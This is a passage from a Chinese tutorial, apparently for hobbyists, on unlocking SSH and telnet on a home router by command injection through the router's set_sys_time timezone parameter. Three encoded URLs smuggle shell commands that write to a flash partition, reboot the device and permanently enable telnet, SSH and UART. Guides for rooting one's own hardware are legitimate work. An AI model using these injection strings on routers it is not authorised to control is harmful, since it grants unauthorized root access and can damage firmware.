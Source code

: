 ### 6. WinSCP
官方下载：<https://winscp.net/eng/downloads.php>
- 注：中文绿色版请下载打包文件

下载 WinSCP-xxx-Portable.zip 文件

## 二、 解锁 SSH
### 1. 复制 stok 值
进入路由器管理页面 http://192.168.31.1 ，登录后复制地址栏中的 stok 值  
<img src="/assets/img/pin/copy-stok.png" alt="复制 stok 值" width="60%" />

### 2. 开启调试模式
将复制的 stok 值替换如下网址的 `{stok}` 并访问：

```text
http://192.168.31.1/cgi-bin/luci/;stok={stok}/api/misystem/set_sys_time?timezone=%20%27%20%3B%20zz%3D%24%28dd%20if%3D%2Fdev%2Fzero%20bs%3D1%20count%3D2%202%3E%2Fdev%2Fnull%29%20%3B%20printf%20%27%A5%5A%25c%25c%27%20%24zz%20%24zz%20%7C%20mtd%20write%20-%20crash%20%3B%20
```

网页内容显示 `{"code":0}` 表示成功开启调试模式

### 3. 通过浏览器请求重启路由器
继续将复制的 stok 值替换如下网址的 `{stok}` 并访问：

```text
http://192.168.31.1/cgi-bin/luci/;stok={stok}/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20
```

网页内容显示 `{"code":0}`，此时路由器会重启

### 4. 再次复制 stok 值
重启完成后进入路由器管理页面并登录，再次复制 stok 值

### 5. 设置 Bdata 永久开启 Telnet
将复制的 stok 值替换如下网址的 `{stok}` 并访问：

```text
http://192.168.31.1/cgi-bin/luci/;stok={stok}/api/misystem/set_sys_time?timezone=%20%27%20%3B%20bdata%20set%20telnet_en%3D1%20%3B%20bdata%20set%20ssh_en%3D1%20%3B%20bdata%20set%20uart_en%3D1%20%3B%20bdata%20commit%20%3B%20
```
